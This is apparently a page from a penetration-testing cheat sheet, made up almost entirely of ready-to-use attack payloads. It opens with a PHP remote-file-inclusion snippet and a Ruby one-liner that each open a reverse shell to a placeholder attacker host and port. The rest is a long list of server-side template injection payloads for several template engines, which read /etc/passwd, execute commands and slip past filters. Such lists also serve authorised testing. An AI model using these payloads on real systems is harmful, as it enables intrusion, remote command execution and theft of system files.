 ## Remote File Inclusion (RFI)

```c
<?php
exec("bash -c 'exec bash -i &>/dev/tcp/<LHOST>/<LPORT> <&1'");
?>
```

## Ruby Reverse Shell

```c
$ ruby -rsocket -e'f=TCPSocket.open("<LHOST>",<LPORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Spoofing Office Marco

> https://github.com/christophetd/spoofing-office-macro

## Server-Side Template Injection (SSTI)

> https://github.com/payloadbox/ssti-payloads

```c
{{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
```